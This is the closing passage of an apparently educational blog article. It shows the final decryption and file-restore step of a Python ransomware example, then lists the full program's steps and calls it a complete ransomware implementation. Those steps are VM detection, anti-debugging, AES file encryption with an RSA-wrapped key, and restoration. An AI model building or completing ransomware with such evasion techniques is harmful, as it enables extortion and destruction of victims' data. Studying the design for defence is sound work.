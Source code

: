         # Load private RSA key
        priv_k_path = "private_key.pem"
        priv_k = ld_prk(priv_k_path)
    
        # Decrypt the AES key
        with open("encrypted_aes_key.bin", "rb") as f:
            enc_aes_k = f.read()
        aes_k = dcr_k(enc_aes_k, priv_k)
    
        # Restore files for simulation purposes
        rst_f(target_dir, aes_k)
        
        print("Process completed.")
    

### **What does it do?**

*   Checks if the code is running in a VM.

*   Runs anti-debugging checks.

*   Generates an AES key and encrypts it using the RSA public key.

*   Encrypts files in the target directory.

*   Stores the encrypted AES key.

*   Decrypts the AES key and restores files for simulation purposes.

### **Why is it used?**

This is the main logic of the program, orchestrating all the functionalities described above.

* * *

**Conclusion**
--------------

This code is a complete example of how ransomware can be implemented, using advanced encryption and anti-analysis techniques. As cybersecurity researchers, it is essential to understand these techniques to develop effective defenses against real threats.

To learn how to generate public and private keys, visit: [https://thekogami.medium.com/first-act-preparation-and-encryption-f239ab1b8695](https://thekogami.medium.com/first-act-preparation-and-encryption-f239ab1b8695)

**Remember:** Using this code for malicious purposes is illegal. This article is for educational and research purposes only.

* * *

**References**
--------------
